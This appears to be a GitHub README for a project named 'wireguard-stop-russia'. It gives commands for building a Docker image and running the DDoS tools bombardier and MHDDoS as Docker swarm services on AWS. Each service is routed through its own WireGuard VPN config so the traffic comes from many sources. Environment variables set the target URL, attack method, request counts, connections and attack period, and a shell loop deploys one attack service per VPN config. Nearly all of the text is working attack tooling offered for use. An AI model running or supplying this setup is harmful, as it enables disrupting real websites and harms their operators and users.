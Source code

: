 #### VPN servers:
* Install Wireguard in several AWS regions
* Generate wireguard configs from this services
* Wireguard HowTo:
  * Just google...
  * Register on [VPN Unlimited](https://www.vpnunlimited.com/ru/) and export wireguard config from your account

##### Docker swarm bombardier or MHDDoS via wireguard
* ``` mkdir -p /home/$USER/wireguard-conf ```
* Put wireguard configs to some directory (example: /home/$USER/wireguard-conf)
* Spin-up spot server on AWS with Ubuntu 20.04
* Install docker
* Add tour current user to docker group ```  sudo usermod -aG docker $USER ```
* Install wireguard package on this server ``` sudo apt install wireguard ```
* Clone repo:
  * to use bombardier clone master branch:
  ``` bash
  git clone https://github.com/neironus/wireguard-stop-russia.git
  ```
  * to use MHDDoS clone dripper branch 
  ``` bash
  git clone --branch dripper https://github.com/neironus/wireguard-stop-russia.git
  ```
  * to use MHDDoS_proxy clone mddos-proxy branch 
  ``` bash
  git clone --branch origin/mddos-proxy https://github.com/neironus/wireguard-stop-russia.git
  ```
* Change directory to this repo
* Build docker image (It take about - 20 minutes, feel free to optimize the process): 
    ``` bash 
    DOCKER_BUILDKIT=1 docker build --tag wireguard-stop-russia . 
    ```

# Image based on this tutorial - [link](https://telegra.ph/MHDDoS-na-prokachku-03-11)
``` bash
# Init docker swarm
docker swarm init --advertise-addr $(hostname -i)
# If you dot an error please use next command:  
docker swarm init
```
``` bash
# Example: 
python3 runner.py https://example.com/ -t 1000 -p 300 --rpc 100 --http-methods ovh --debug
```
* VPN needs only for UDP and it will be started automatically
``` bash
# Create services with wireguard configs
# One wireguard config == 1 service with 1 replica
export WG_CONF_DIR=/home/$USER/wireguard-conf
export WIREGUARD_PORT=51820
export TARGET='https://example.com/'
export METHOD=ovh
export REQUESTS_COUNT=1000
export CONNECTIONS=100
export ATTACK_PERIOD=300

for i in $(ls $WG_CONF_DIR); do arrIN=(${i//./ }); name=${arrIN[0]}; export WIREGUARD_CLIENT_CONFIG="$WG_CONF_DIR/$i"; docker stack deploy -c docker-compose.yml $name; sleep 1; done

# Delete services
export WG_CONF_DIR=/home/$USER/wireguard-conf
for i in $(ls $WG_CONF_DIR); do arrIN=(${i//./ }); name=${arrIN[0]}; docker stack rm $name; sleep 1; done


# List containers
docker ps 

# Get top from specific container (Get container id form prevues command)
docker top container-id 

# Get logs from specific container
docker logs container-id 
docker logs -f container-id 
```
``` bash
for i in $(ls $WG_CONF_DIR); do arrIN=(${i//./ }); name=${arrIN[0]}; export WIREGUARD_CLIENT_CONFIG="$WG_CONF_DIR/$i"; echo "$name - $WIREGUARD_CLIENT_CONFIG"; sleep 1; done

```